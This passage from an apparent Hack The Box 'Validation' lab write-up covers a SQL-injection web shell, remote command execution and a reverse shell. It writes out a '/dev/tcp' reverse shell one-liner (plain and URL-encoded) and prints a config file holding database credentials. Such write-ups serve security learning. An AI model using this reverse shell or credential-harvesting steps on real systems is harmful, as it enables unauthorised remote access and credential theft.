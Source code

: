 ![Writing a web shell in SQL Injection](https://github.com/joelczk/writeups/blob/main/HTB/Images/Validation/webshell_sql_injection.png)

Navigating to http://validation.htb/shell.php?cmd=whoami, we can see that we are able to execute remote commands on the website.

![whoami command on webshell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Validation/webshell_whoami.png)

Lastly, all we have to do is to create a reverse shell from http://validation.htb/shell.php?cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.6%2F4000%200%3E%261%27. The reverse shell payload that we are using is ```/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.6/4000 0>&1'```, but we have to url encode the payload for the exploit to work. 

![Reverse shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Validation/reverse_shell.png)

### Obtaining user flag

```
www-data@validation:/home/htb$ cat user.txt
cat user.txt
<Redacted user flag>
```

### Privilege Escalation to root

Using linpeas, we are able to discover a password in the config php file. Examining this furthur, we are able to find this password in /var/www/html/config.php. 

```
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
